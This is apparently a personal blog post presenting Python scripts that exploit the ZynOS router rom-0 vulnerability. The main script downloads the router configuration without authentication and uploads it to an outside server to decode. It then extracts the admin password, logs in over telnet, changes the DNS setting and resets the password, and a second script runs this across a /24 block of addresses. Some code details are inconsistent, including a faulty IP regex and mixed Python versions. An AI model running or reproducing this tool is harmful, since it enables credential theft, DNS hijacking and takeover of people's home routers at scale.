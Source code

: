 ```yaml
---
title: "zynOS rom-0 fetching"
date: 2024-01-10T11:32:59-05:00
draft: false
---
```


i was poking around old vulnerabilities, that specifically affected home networks and i found this (now patched) exploitable vulnerability affecting zynOS routers. the vulnerability allows an attacker to download the router's configuration (ROM-0 file) without any type of authentication. this file could then be later decompressed to expose the router's admin password, wifi password, etc.

[the program](https://github.com/bilals12/zyn-rom0) i wrote attempts to connect to a valid host to download said ROM-0 file, extracts specific data from it (using regex), then logs back into the same host via telnet to change DNS settings, set a system password, and log out. it's a pretty simple program, and its use-case is probably limited nowadays but it was a fun exercise nonetheless. as always, it's for educational purposes only!

the main script can be broken down into 8 steps:

1. **set default socket timeout**: `socket.setdefaulttimeout(4)` sets a default timeout for new socket objects to 4 seconds. this affects all subsequent socket operations.

2. **registering openers**: `register_openers()` initializes and configures libraries to handle multipart/form-data uploads.

3. **file handling**: the script attempts to remove a file named "rom-0" from the current directory, as a cleanup step from previous runs.

4. **downloading file**: the script constructs a URL using a command-line argument (`sys.argv[1]`) and downloads a file named "rom-0" from this URL. requires a valid host to be passed as an argument!

5. **uploading the file**: it then uploads this file to a specific URL (`http://198.61.167.113/zynos/decoded.php`). this server is intended to process/analyze the uploaded file.

6. **extracting information**: the script uses regex to extract certain data from the response received after uploading the file.

7. **establishing telnet connection**: it attempts to establish a telnet connection to the same host from which the "rom-0" file was downloaded.

8. **sending commands via telnet**: the extracted data (hopefully a password) is used to login via telnet. the script then executes several commands on the remote host.

```python
import urllib2
import urllib
import re
import sys
import telnetlib
import socket
import os
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

# set default timeout for socket ops to avoid indefinite hang
# improves reliability of network ops
socket.setdefaulttimeout(4)

# register openers for multipart/form-data upload
# required for handling file uploads
register_openers()

# try to remove file "rom-0" in current directory (if it exists)
# cleanup step to ensure script always works with latest data
try:
	os.remove("rom-0")
except OSError:
	pass #ignores error if file doesn't exist

# main script
try:
	# read host IP from command line arg
	if len(sys.argv) < 2:
		print("usage: python script.py [host_ip]")
		sys.exit(1)

	host = str(sys.argv[1])

	# validate host IP format
	if not re.match(r'^\d{1,3}(\,\d{1,3}){3}$', host):
		print("[!] invalid IP address format [!]")
		sys.exit(1)

	# download "rom-0" from provided host
	urllib.urlretrieve("http://" + host + "/rom-0", "rom-0")

	# using context manager for file ops to ensure proper closure of the file
	with open("rom-0", 'rb') as f:
		datagen, headers = multipart_encode({"uploadedfile": f})

		# send POST request with file to specific server for processing
		request = urllib2.Request("http://198.61.167.113/zynos/decoded.php", datagen, headers)
		response = urllib2.urlopen(request).read()

		# extract specific data (password) using regex
		match = re.search('rows=10>(.*)', response)
		if match:
			found_password = match.group(1)
		else:
			print("[!] password not found in response [!]")
			sys.exit(1)

	# establish telnet connection to target host
	tn = telnetlib.Telnet(host, 23, 3)
	tn.read_until("Password: ")
	tn.write(found_password + "\n")

	# executing commands on target host
	tn.write("set lan dhcpdns 8.8.8.8\n")
	tn.write("sys password admin\n")
	print(host + " [^-^] success! [^-^]")

	# exit telnet sesh
	tn.write("exit\n")

except Exception as e:
	# errors
	print(f"[!] an error occurred: {e} [!]")
	print(host + " [:(] offline/inaccessible [:(]")
```

running `attack.py` simply peforms the actions of the main script over a specified target range. 

```python
import subprocess
from netaddr import IPNetwork

# define range of IP addresses to iterate over
ip_range = '41.108.48.1/24'

# iterate over each IP in the range
for ip in IPNetwork(ip_range):
	# execute script.py
	command = ["python", "script.py", str(ip)]

	# execute command using subprocess
	subprocess.run(command)
```
